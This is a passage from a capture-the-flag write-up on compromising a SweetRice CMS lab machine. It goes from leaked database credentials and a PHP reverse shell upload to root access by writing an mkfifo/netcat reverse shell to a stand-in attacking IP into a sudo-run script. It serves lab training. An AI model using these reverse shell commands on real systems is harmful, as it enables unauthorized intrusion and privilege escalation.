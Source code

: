 
- Looking around more, we can see that there are a bunch of files in the `/inc` directory, including php files, and a MySQL backup file. 
- The contents of the MySQL backup file hold the following credentials:
	- User: manager
	- Password (once hash is cracked): Password123

![MySQL Backup File](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/89b2a763-a8af-48f9-b206-188e5d5590ce)


- These credentials can be used to log into the admin page shown earlier. Once entered, we are greeted with the following landing page:

![Logged Into SweetRice](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/ba9ee1d3-6b1d-428f-ad2a-38fff6efae1e)


## System Hacking
- Once we toggle the Website Status to Running, we can go back to the website `/content` directory and view the webpage. It's a basic hello world web page, but upon further inspection, the source code references a few other URLs that we can take a look at. One of them is an Ads page, where we can load a php reverse shell:

![Ads Admin](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/a3d1b41a-b674-430b-b258-2af08325884c)


***Note: I have already loaded the php reverse shell payload from the Pentest Monkey GitHub page.***

- Once this is loaded, we can navigate to the `/content/inc/ads` directory through the URL, where we can see the reverse shell we have uploaded. Ensure there is a [[Netcat]] listener on the attacking machine, and click the payload to spawn a reverse shell. 
- You can use the following Python syntax to stabilize the shell. 
```python
python3 -c 'import pty;pty.spawn("bin/bash")'
```

- From here, we can navigate to the `/home/itguy` directory and grab: 
	- user.txt: THM{63e5bce9271952aad1113b6f1ac28a07}

## Privilege Escalation
- When running `sudo -l`, we can see that we can run a `backup.pl` file with root permissions. This file is in the `/home/itguy` folder, and contains the following:
```perl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

- This script calls another script: `/etc/copy.sh`. We can use the following syntax to throw a quick reverse shell that will connect back to our attacking machine into the `copy.sh` script when the `backup.pl` script is run:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacking-ip 4444 >/tmp/f' > /etc/copy.sh
```
